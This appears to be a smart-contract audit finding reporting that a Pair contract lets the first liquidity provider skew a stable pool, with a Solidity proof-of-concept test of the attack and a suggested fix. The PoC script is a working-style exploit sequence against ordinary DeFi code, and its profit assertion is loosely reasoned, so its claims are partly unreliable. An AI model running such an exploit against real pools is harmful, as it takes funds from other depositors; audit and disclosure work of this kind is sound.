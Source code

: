 Dandy Shamrock Sheep

High

# First Liquidity Provider Manipulation in Stable Pools

## Summary
The Pair contract allows the first liquidity provider to manipulate the initial state of a stable pool, potentially leading to unfair advantages and losses for subsequent liquidity providers.

## Vulnerability Detail
The mint function in the Pair contract doesn't enforce a balanced deposit for the first liquidity provider in stable pools. This can be exploited to create an imbalanced pool state, leading to potential value extraction.

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250-L269

## Impact
* First liquidity provider can create an imbalanced pool state
* Subsequent liquidity providers may suffer losses
* Manipulation of pool pricing and swaps

## Code Snippet
POC:
```solidity
function testExploitFirstLiquidityProvider() public {
    // Deploy a new stable pair
    Pair stablePair = new Pair();
    stablePair.initialize(address(DAI), address(USDC), true); // Assuming DAI and USDC are 1:1 stablecoins

    // Approve tokens for the attacker
    DAI.approve(address(stablePair), 1000e18);
    USDC.approve(address(stablePair), 1000e6);

    // Step 1: Attacker adds imbalanced liquidity
    DAI.transfer(address(stablePair), 1000e18);
    USDC.transfer(address(stablePair), 100e6); // 10x less USDC than expected
    stablePair.mint(address(this));

    // Step 2: Check the pool state
    (uint reserve0, uint reserve1,) = stablePair.getReserves();
    console.log("DAI reserve:", reserve0);
    console.log("USDC reserve:", reserve1);

    // Step 3: Victim adds balanced liquidity
    address victim = address(0x1234);
    deal(address(DAI), victim, 1000e18);
    deal(address(USDC), victim, 1000e6);
    vm.startPrank(victim);
    DAI.approve(address(stablePair), 1000e18);
    USDC.approve(address(stablePair), 1000e6);
    DAI.transfer(address(stablePair), 1000e18);
    USDC.transfer(address(stablePair), 1000e6);
    uint victimLiquidity = stablePair.mint(victim);
    vm.stopPrank();

    // Step 4: Attacker removes liquidity
    uint attackerLiquidity = stablePair.balanceOf(address(this));
    stablePair.transfer(address(stablePair), attackerLiquidity);
    (uint amountDAI, uint amountUSDC) = stablePair.burn(address(this));

    console.log("Attacker's DAI:", amountDAI);
    console.log("Attacker's USDC:", amountUSDC);
    console.log("Victim's liquidity:", victimLiquidity);

    // Assert that the attacker has gained value
    assertGt(amountDAI + amountUSDC * 1e12, 1100e18, "Attacker should have gained value");
}
```
This test demonstrates how an attacker can:

* Create an imbalanced stable pool
* Allow a victim to provide balanced liquidity
* Remove their liquidity for a profit

## Tool used

Manual Review

## Recommendation
* Enforce a balanced initial deposit for stable pools:
```solidity
function mint(address to) external lock returns (uint liquidity) {
    // ... existing code ...
    if (_totalSupply == 0) {
        if (stable) {
            require((_amount0 * 1e18 / decimals0) == (_amount1 * 1e18 / decimals1), "Initial deposit must be balanced");
        }
        liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
        _mint(address(0), MINIMUM_LIQUIDITY);
    }
    // ... rest of the function ...
}
```
* Implement a minimum liquidity check that's significant enough to prevent easy manipulation.
* Consider implementing a time-lock or minimum liquidity period for the first liquidity provider to discourage manipulation attempts.
